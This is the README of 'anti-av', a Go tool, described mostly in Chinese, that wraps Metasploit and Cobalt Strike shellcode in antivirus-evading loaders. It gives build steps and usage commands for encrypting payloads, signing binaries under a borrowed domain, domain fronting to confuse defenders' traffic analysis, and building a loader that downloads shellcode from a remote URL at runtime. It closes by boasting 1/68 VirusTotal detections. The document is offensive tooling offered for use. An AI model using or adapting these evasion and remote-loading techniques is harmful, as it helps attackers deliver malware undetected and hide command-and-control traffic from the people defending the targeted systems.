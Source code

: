 # ANTI-AV



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或 linux环境
2、安装交叉编译 mingw64
3、安装签名 osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string //签名binary时使用该域名。
        domain to be signed (default "baidu.com")
        
  -e    payload to be encrypted //布尔类型和-sc一起使用，对-sc指定的shellcode文件加密
  
  -ho string //远程加载shellcode时，通过隐藏流量（支持域前置）或混淆host达到干扰蓝队流量研判。
        host obfuscator (default "wwww.baidu.com")
        
  -l string //支持加载shellcode方式
        loader: binary (default "binary")
        
  -os string //支持的操作系统
        OS: windows,linux (default "windows")
        
  -sc string //shellcode的文件或url地址。如果是url，则在运行时访问下载。
        encrypt payload by anti-av: support 'msfvenom -f raw' OR 'cs raw' OR remote url loading (default "payload.e")

```





## 使用方案

### 1、binary自解压shellcode
```bash
./anti-av -sc ~/Desktop/payload.bin 
```


### 2、binary远程加载shellcode

> STEP1: 生成加密payload (dist目录下生成payload.e)

```bash
./anti-av  -e -sc ~/Desktop/payload.bin 
```
> STEP2: 上传payload.e到公共下载服务器

```ASN.1
略
```

> STEP3: 制作loader

```bash
./anti-av -sc http://x.x.x.x/payload.e 
```



## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |


